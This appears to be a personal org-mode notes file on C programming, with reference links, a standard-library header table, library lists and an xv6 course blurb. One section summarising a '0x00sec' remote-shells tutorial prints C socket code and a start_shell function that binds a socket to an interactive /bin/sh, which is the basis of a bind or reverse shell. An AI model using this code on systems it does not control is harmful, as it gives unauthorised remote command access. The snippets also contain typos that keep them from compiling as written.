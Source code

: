 - c2x https://habr.com/en/company/badoo/blog/512802/
- clangd
  - autoformat configuration options https://bcain-llvm.readthedocs.io/projects/clang/en/latest/ClangFormatStyleOptions/
- SDL https://nullprogram.com/blog/2023/01/08/
- https://github.com/hardik05/Damn_Vulnerable_C_Program
- https://github.com/microsoft/checkedc
- talks https://nullprogram.com/blog/2018/11/21/
- https://blog.llvm.org/2011/05/what-every-c-programmer-should-know.html
- A Guide to Undefined Behavior in C and C++, Part 1
  https://blog.regehr.org/archives/213
- const https://softwareengineering.stackexchange.com/questions/204500/when-and-for-what-purposes-should-the-const-keyword-be-used-in-c-for-variables
- https://gjbex.github.io/DPD-online-book/CodingBestPractices/ErrorHandling/error_handling_c/
- asan, ubsan, valgrind, fuzzers, libcheck, pvs
- http://infolab.stanford.edu/~ullman/focs.html#pdfs
- Book: http://c-faq.com/
- C Books Reviews http://knking.com/recbooks/c.html
- Code: http://bxr.su/OpenBSD/
- Example: https://github.com/ltratt/hk/blob/18fcaea3e83f0c00aaef13b2882d5fa233d85de2/hk.c
- Benchmark: https://www.wilfred.me.uk/blog/2014/10/20/the-fastest-bigint-in-the-west/
- Benchmark: FFI https://github.com/dyu/ffi-overhead
  - Golang is 40x slower than C
  - Haskell,Ocaml(opt),Rust are on par with C
  - Ocaml(C) is 4x slower
  - LuaJit is faster than C, https://github.com/dyu/ffi-overhead/issues/2#issuecomment-405834411
    "Using JITing to skip PLT inderection"
    "Same on C would be -fno-plt"
- https://fastcompression.blogspot.com/2019/01/writing-safer-c-code.html
- https://github.com/AnthonyCalandra/modern-cpp-features
- https://github.com/gerasdf/InsecureProgramming/
- https://github.com/rhysd/vim-clang-format
- https://not.cafe/2020/10/12/getting-started-with-c-programming.html
- https://tek256.com/posts/code-hardening/
- http://blog.lujun9972.win/emacs-document/blog/2018/03/22/emacs-as-a-c++-ide/index.html
  https://vxlabs.com/2016/04/11/step-by-step-guide-to-c-navigation-and-completion-with-emacs-and-the-clang-based-rtags/

* Language
- main() entry point for a program that's executed in a hosted environment
  - a *return* from it, is equivalent to calling *exit*
- Execution environments
  - freestanding: no OS, embedded programming
  - hosted: cli or from other programs
** Sockets

- CLIENT
  s = socket()
  opts = htons+inet_addr
  connect(s, opts)

- SERVER
  s = socket()
  opts = htons+htonl
  bind(s, opts)
  listen(s, BACKLOG)
  accept(s) // wait

** Types

- =string=
  #+begin_src c
    char* foo = "hello" "world"; // "helloworld"

    #define STR2(x)
    #define STR(x) STR2(x)
    #define WIDTH 300
    #define HEIGHT 200
    printf("%s\n", STR(WIDTH) "x" STR(HEIGHT)); // compile time int->string casting
  #+end_src

- =struct= intialization
  #+begin_src c
    typedef struct {
      unsigned char c1;
      unsigned char c2;
    } myStruct;

    myStruct _m1 = {0};
  #+end_src

- =arrays= initialization
  - globals and static are _automatically_ initialized to zero
  - arrays as local, either
    #+begin_src c
      int coll2[1024] = {0};
      memset(coll2, 0, 1024);
    #+end_src
  - arrays of structs
    #+begin_src c
      typedef struct {
        unsigned char a;
        unsigned char b;
        unsigned char c;
      } user_struct;
      user_struct arr[5] = {0};
    #+end_src
  - arrays in structs can be initialized... TODO?

** Standard Library
- https://en.cppreference.com/w/c/header
- https://en.wikibooks.org/wiki/Category:Book:C_Programming
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
|           <r> |              |    |                                                                                                         |
|        HEADER | fn           | C? |                                                                                                         |
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
|      assert.h |              |    | Conditionally compiled macro that compares its argument to zero                                         |
|     complex.h |              | 99 | Complex number arithmetic                                                                               |
|       ctype.h |              |    | Functions to determine the type contained in character data                                             |
|       errno.h |              |    | Macros reporting error conditions                                                                       |
|        fenv.h |              | 99 | Floating-point environment                                                                              |
|       float.h |              |    | Limits of floating-point types                                                                          |
|    inttypes.h |              | 99 | Format conversion of integer types                                                                      |
|      iso646.h |              | 95 | Alternative operator spellings                                                                          |
|      limits.h |              |    | Ranges of integer types                                                                                 |
|      locale.h |              |    | Localization utilities                                                                                  |
|        [[https://en.wikibooks.org/wiki/C_Programming/math.h][math.h]] | fabs         |    | Common mathematics functions                                                                            |
|       paths.h |              |    | constants with string paths of common LINUX files                                                       |
|      setjmp.h |              |    | Nonlocal jumps                                                                                          |
|      signal.h |              |    | Signal handling                                                                                         |
|    stdalign.h |              | 11 | alignas and alignof convenience macros                                                                  |
|      stdarg.h |              |    | Allows variable arguments functions                                                                     |
|   stdatomic.h |              | 11 | Atomic operations                                                                                       |
|      stdbit.h |              | 23 | Macros to work with the byte and bit representations of types                                           |
|     stdbool.h |              | 99 | Macros for boolean type                                                                                 |
|   stdckdint.h |              | 23 | macros for performing checked integer arithmetic                                                        |
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
|      stddef.h | NULL         |    | Common macro definitions                                                                                |
|               | size_t       |    |                                                                                                         |
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
|      [[https://en.wikibooks.org/wiki/C_Programming/stdint.h][stdint.h]] | [u]int<n>_t  | 99 | Fixed-width integer types                                                                               |
|               | INT<n>_MAX   |    |                                                                                                         |
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
|       [[https://en.wikibooks.org/wiki/C_Programming/stdio.h][stdio.h]] |              |    | Input/output. Most return EOF (-1) on error.                                                            |
|               | fopen        |    |                                                                                                         |
|               | fread        |    |                                                                                                         |
|               | fgetc        |    |                                                                                                         |
|               | getchar      |    |                                                                                                         |
|               | scanf        |    |                                                                                                         |
|               | printf       |    | returns the nr of chars printed, or negative number on error                                            |
|               | puts         |    |                                                                                                         |
|               | remove       |    | erases a file                                                                                           |
|               | rename       |    | renames a file                                                                                          |
|               | tmpfile      |    | pointer to tmp file                                                                                     |
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
|      [[https://en.wikibooks.org/wiki/C_Programming/stdlib.h][stdlib.h]] | size_t       |    | General utilities: memory management, program utilities, string conversions, random numbers, algorithms |
|               | malloc       |    |                                                                                                         |
|               | getenv       |    |                                                                                                         |
|               | system       |    |                                                                                                         |
|               | exit         |    |                                                                                                         |
|               | bsearch      |    |                                                                                                         |
|               | qsort        |    |                                                                                                         |
|               | abs          |    |                                                                                                         |
|               | div          |    |                                                                                                         |
|               | random       |    |                                                                                                         |
|               | ato?         |    |                                                                                                         |
|               | strto?       |    |                                                                                                         |
|               | EXIT_SUCCESS |    |                                                                                                         |
|               | EXIT_FAILURE |    |                                                                                                         |
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
| stdnoreturn.h |              | 11 | noreturn convenience macro                                                                              |
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
|      [[https://en.wikibooks.org/wiki/C_Programming/string.h][string.h]] | size_t       |    | String handling                                                                                         |
|               | memcpy       |    |                                                                                                         |
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
|      tgmath.h |              | 99 | Type-generic math (macros wrapping math.h and complex.h)                                                |
|     threads.h |              | 11 | Thread library                                                                                          |
|        time.h |              |    | Time/date utilities                                                                                     |
|       uchar.h |              | 11 | UTF-16 and UTF-32 character utilities                                                                   |
|       wchar.h |              | 95 | Extended multibyte and wide character utilities                                                         |
|      wctype.h |              | 95 | Functions to determine the type contained in wide character data                                        |
|---------------+--------------+----+---------------------------------------------------------------------------------------------------------|
* Codebases
- https://github.com/curl/trurl/blob/master/trurl.c
- https://github.com/gsingh93/display-manager
- https://github.com/lpereira/lwan
* Tools
** Editors
- Visual Studio https://visualstudio.microsoft.com/
- Eclipse CDT https://projects.eclipse.org/projects/tools.cdt
- CLion https://www.jetbrains.com/clion/
  - Paid
- Code::Blocks https://www.codeblocks.org/
  - 2020 last version
* Libraries
- 0.9K https://github.com/MrFrenik/gunslinger
  C99, header-only framework for games and multimedia applications
- Webserver https://mongoose.ws/
- (3K) minimal cross-platform standalone C headers
  https://github.com/floooh/sokol
- (800) math lib https://github.com/HandmadeMath/Handmade-Math
- https://github.com/oz123/awesome-c
- https://wiki.gnome.org/Projects/GLib
- https://github.com/clibs
- (893) https://github.com/tezc/sc
- (80) https://github.com/ludocode/pottery
- (24) https://github.com/begriffs/libderp
- (10) https://github.com/lelanthran/libds
- (480) coroutines https://github.com/tidwall/neco
* Sanitizers
- Static http://splint.org/
- https://www.youtube.com/watch?v=Q2C2lP8_tNE
- https://github.com/google/sanitizers/wiki/AddressSanitizer
- https://valgrind.org/docs/manual/quick-start.html
- https://gcc.gnu.org/onlinedocs/gcc/Instrumentation-Options.html
* 0x00sec - Remote Shells
**   I Use Cases
https://0x00sec.org/t/remote-shells-part-i/269/1

- Remote Access:
  In the cases when is NOT possible to deploy a service like "ssh" or "telnet"
  you can easily write your own remote shell program.

- Types of Remote Shells
  - Direct: act like servers
  - Reverse: the application "calls back home" to a specifict server/port

*** client

#+begin_src c
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>
  #include <sys/socket.h>
  #include <arpa/inet.h>

  int client_init(char *ip, int port) {
    int s;
    if ((s = socket(AF_INET; SOCK_STREAM, 0) < 0) {
        perror("socket:");
        exit(EXIT_FAILURE);
    }

    struct sockaddr_in serv;
    serv.sin_family = AF_INET;
    serv.sin_port = htons(port);
    serv.sin_addr.s_s_addr = inet_addr(ip);
    if (connect(s, (struct sockaddr *)&serv, sizeof(serv)) < 0) {
      perror("connect:");
      exit(EXIT_FAILURE);
    }

    return s;
  }
#+end_src

*** server

#+begin_src c
  inet server_init(int port) {
    int s;
    if ((s = socket(AF_INET, SOCK_STREAM, 0) < 0)) {
      perror("socket:");
      exit(EXIT_FAILURE);
    }

    struct sockaddr_in serv;
    serv.sin_family = AF_INET;
    serv.sin_port = htons(port);
    serv.sin_addr.s_addr = htonl(INADDR_ANY);
    if ((bind(s, (struct sockaddr *)&serv, sizeof(struct sockaddr_in))) < 0) {
      perror("bind:");
      exit(EXIT_FAILURE);
    }
    if ((listen(s, 10)) < 0) {
      perror("listen:");
      exit(EXIT_FAILURE);
    }

    socklen_t clen = sizeof(struct sockaddr_in);
    struct sockaddr_in client;
    int s1;
    if ((s1 = accept(s, (struct sockaddr *) &client, &clen)) < 0) {
      perror("accept:");
      exit(EXIT_FAILURE);
    }
    return s1;
  }
#+end_src

*** start_shell

#+begin_src c
  int start_shell(int s) {
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    char *name[3];
    name[0] = "/bin/sh";
    name[1] = "-i";
    name[2] = NULL;
    execve(name[0], name);
    exit(1);
    return 0;
  }
#+end_src

**  II Crypt your link
- https://0x00sec.org/t/remote-shells-part-ii-crypt-your-link/306
- https://en.wikipedia.org/wiki/Loop_unrolling

- SocketPair
  - Used to transfer data
  - Are a pair of sockets that are immediatly connected
    Something like runing a client and a server in 1 call
  - Kind of like a bidirectional PIPE
  - Convenient IPC

- secure_shell()
  | Parent       | Child              |
  |--------------+--------------------|
  | socketpair() |                    |
  | fork()       | fork()             |
  | close(sp[0]) | close(sp[1])       |
  | async_read() | start_shell(sp[0]) |

- async_read()
  select()
  memset()
  read()
  memfrob()

- We use stdin socket as the input socket for async_read() on main()

** III Shell Access your Phone
- setsockopt() - SO_REUSEADDR
* Projects
- http://www.tendra.org/tdfc2-config/#S11.2
  https://github.com/tendra/tendra/wiki/About
- https://github.com/isometimes/rpi4-osdev
** clang-format
  https://emacs.stackexchange.com/questions/55635/how-can-i-set-up-clang-format-in-emacs
  clang-format -style=llvm -dump-config > .clang-format
* 6.S081: Learning by doing
Catalog description: Design and implementation of operating systems,
and their use as a foundation for systems programming. Topics include
virtual memory; file systems; threads; context switches; kernels;
interrupts; system calls; interprocess communication; coordination,
and interaction between software and hardware. A multi-processor
operating system for RISC-V, xv6, is used to illustrate these
topics. Individual laboratory assignments involve extending the xv6
operating system, for example to support sophisticated virtual memory
features and networking.

You may wonder why we are studying xv6, an operating system that
resembles Unix v6, instead of the latest and greatest version of
Linux, Windows, or BSD Unix. xv6 is big enough to illustrate the basic
design and implementation ideas in operating systems. On the other
hand, xv6 is far smaller than any modern production O/S, and
correspondingly easier to understand. xv6 has a structure similar to
many modern operating systems; once you've explored xv6 you will find
that much is familiar inside kernels such as Linux.
- https://pdos.csail.mit.edu/6.S081/2021/schedule.html
- https://news.ycombinator.com/item?id=30094376
